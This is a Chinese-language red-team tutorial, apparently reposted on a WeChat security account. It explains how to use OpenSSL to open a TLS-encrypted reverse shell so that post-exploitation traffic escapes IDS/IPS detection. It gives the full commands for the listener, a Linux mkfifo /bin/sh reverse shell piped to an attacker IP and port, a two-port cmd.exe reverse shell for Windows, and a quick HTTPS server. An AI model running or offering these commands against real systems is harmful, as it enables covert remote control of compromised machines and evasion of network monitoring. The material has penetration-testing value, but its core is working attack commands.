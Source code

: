 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/7cSB-P175ODFB9O4Sqnrbw)

**原文链接：https://www.cnblogs.com/heycomputer/articles/10697865.html**
-------------------------------------------------------------------

目录
--

*   前言
    
*   OpenSSL 简介
    
*   使用 OpenSSL 生成证书自签名证书
    
*   使用 OpenSSL 反弹加密 shell
    

*   Linux
    
*   Windows
    

*   使用 OpenSSL 搭建简易 HTTPS Server
    
*   参考链接
    

前言
--

在进行红队渗透测试的后渗透阶段为了进一步横行渗透往往需要反弹 shell，这里列出了使用各种语言进行反弹 shell 的方法，我发现这种反弹 shell 方式都有一个缺点，那就是**所有的流量都是明文传输的**。

我们使用 nc 反弹 shell 进行测试

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlkNUTNhQd10iasSXNSwpASOYHjgtibVlAoCMlEtI0QMtrsEc92KVqzZTAg/640?wx_fmt=png)

使用 wireshark 可以直接看到我们执行的命令和返回信息

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlk92L3NSVb8yNKZicHEEibica7NIjHwpDuZZJOEjtzjxiaxvAiaHicQswjkDUA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlkPsmVcn6tucQAhgfBa6UKZibyL8FYVSB6bDElUSMHd1S8QTwhAGDoIQQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlkwppN5pzQSIibZZOzYp1vhy1TQk5weXDQYiaKXAJtFNycxG94l1smKMMA/640?wx_fmt=png)

在这种情况下当我们进行操作时，网络防御检测系统 (IDS、IPS 等) 会获取到我们的通信内容并进行告警和阻止，因此需要对通信内容进行混淆或加密，这时可以选择使用 OpenSSL 反弹一个加密 shell。

OpenSSL 简介
----------

在计算机网络上，OpenSSL 是一个开放源代码的软件库包，应用程序可以使用这个包来进行安全通信，避免窃听，同时确认另一端连接者的身份

利用 OpenSSL 反弹 shell 之前需要生成自签名证书

使用 OpenSSL 生成证书自签名证书
--------------------

```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes
```

生成自签名证书时会提示输入证书信息，如果懒得填写可以一路回车

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlkD7HvQl80DhXOMUcUg1COhfOD9lHZdsvI75XrZDr1K95noHm2Aia5hFg/640?wx_fmt=png)

使用 OpenSSL 反弹加密 shell
---------------------

### Linux

假设我们从 A 主机反弹 shell 到 B 主机

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlkltjE60N7QYjs10ic1ZNiaHf1ylhInCPzFadn4jD6RvvpIzzic0J7mqV2g/640?wx_fmt=png)

首先需用利用上一步生成的自签名证书，在 B 主机上使用 OpenSSL 监听一个端口，在这里使用 1337 端口

命令为：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 1337
```

此时 OpenSSL 在 1337 端口上启动了一个 SSL/TLS server

这时在 B 主机进行反弹 shell 操作，命令为：

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 172.16.1.174:1337 > /tmp/s; rm /tmp/s
```

这样就使用 OpenSSL 反弹了一个加密的 shell

效果如下：

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlkHvicyzXAgsSvjuBsxr2aTgGibDy8aZzl8KG2Pn8uGax2swPsyezHIJmg/640?wx_fmt=png)

使用 wireshark 抓包可以看到，A 和 B 主机之间在使用 TLS1.2 协议进行加密通信

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlkniaDLQIfZSd7DMtHraxJOumxNPmUb2RTWjZ3ibtZEibLB1o6ZvgCjCJoA/640?wx_fmt=png)

### Windows

在 Windows 系统上反弹加密 shell 的方式有点不一样

具体命令如下：

```
openssl s_client -quiet -connect [ip]:[port1] | cmd.exe | openssl s_client -quiet -connect [ip]:[port2]
```

以上命令会从 `[ip]:[port1]` 获取命令发送给 `cmd.exe`执行，然后把结果返回到 `[ip]:[port2]`

因此在本机需要启动两个 `s_server`

从 `port1` 发送命令到 cmd

```
openssl s_server -quiet -key [keyfile] -cert [cert] -port [port1]
```

从 `port2` 获取发送给 `port1` 的命令执行结果

```
openssl s_server -quiet -key [keyfile] -cert [cert] -port [port2]
```

OpenSSL 还有很多功能，这里详细的列出了 OpenSSL 的常见使用方法

在渗透测试时，还可以使用 OpenSSL 搭建简易 HTTPS Server

使用 OpenSSL 搭建简易 HTTPS Server
----------------------------

使用以下命令前需要使用 OpenSSL 生成证书自签名证书，命令在上文中已给出

```
openssl s_server -key key.pem -cert cert.pem -accept 44330 -WWW
```

以上命令在 44330 端口启动了一个 HTTPS Server

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclfmSEEGHt1jT226bEdESlkp40D9W44LT1q5EkRCAAcSwPpkElShwgdkhunVZ4wPcBxZWtvJ3tFEw/640?wx_fmt=png)

参考链接
----

*   Reverse Shell with OpenSSL
    
*   Create a simple HTTPS server with OPENSSL S_SERVER
    
*   OpenSSL == NC
    

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

****扫描关注 LemonSec****  

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icncXiavFRorU03O5AoZQYznLCnFJLs8RQbC9sltHYyicOu9uchegP88kUFsS8KjITnrQMfYp9g2vQfw/640?wx_fmt=png)

**觉得不错点个 **“赞”**、“在看” 哦****![](https://mmbiz.qpic.cn/mmbiz_png/3k9IT3oQhT1YhlAJOGvAaVRV0ZSSnX46ibouOHe05icukBYibdJOiaOpO06ic5eb0EMW1yhjMNRe1ibu5HuNibCcrGsqw/640?wx_fmt=png)**